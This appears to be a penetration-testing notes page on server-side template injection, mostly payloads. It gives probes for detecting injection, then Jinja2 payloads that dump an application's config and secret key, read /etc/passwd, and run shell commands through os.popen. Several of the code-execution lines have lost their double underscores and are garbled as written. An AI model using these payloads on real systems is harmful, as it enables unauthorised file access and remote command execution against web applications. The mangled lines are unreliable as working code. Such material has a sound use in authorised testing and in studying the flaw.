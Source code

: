 # SSTI

[https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

Step 1: Find an injection point, attempt basic payloads and see if app is vulnerable to SSTI.

Can be via input box, or in the URL

Basic Identification:

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

<figure><img src="../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Exploit

### Jinja2

* Dump all the config variables, will show the secret key, if the variable is set

```
{{ config }} 
```

<figure><img src="../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Jinja Injection without \<class 'object'>&#x20;

* From the there is another way to get to RCE without using that class.&#x20;
* \*\*\*\*If you manage to get to any function from those globals objects, you will be able to access **globals**.**builtins** and from there the RCE is very simple.&#x20;
* You can find functions from the objects request, config and any other interesting global object you have access to with:&#x20;

```
{{ request.__class__.__dict__ }}
application
_load_form_data
on_json_loading_failed ​ {{ config.class.dict }}
init
from_envvar
from_pyfile
from_object
from_file
from_json
from_mapping
get_namespace
repr ​
# You can iterate through children objects to find more
```

* Once you have found some functions you can recover the builtins with:

```
# Read File
{{ request.class._load_form_data.globals.builtins.open("/etc/passwd").read() }} ​
# RCE
{{ config.class.from_envvar.globals.builtins.import("os").popen("ls").read() }} {{ config.class.from_envvar["globals"]["builtins"]"import".popen("ls").read() }} {{ (config|attr("class")).from_envvar["globals"]["builtins"]"import".popen("ls").read() }} ​
{{ a }}​ ## Extra ## The global from config have a access to a function called import_string ## with this function you don't need to access the builtins {{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }} ​ 
# All the bypasses seen in the previous sections are also valid
```

If it is, the next step is determining the engine that is running the application&#x20;

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
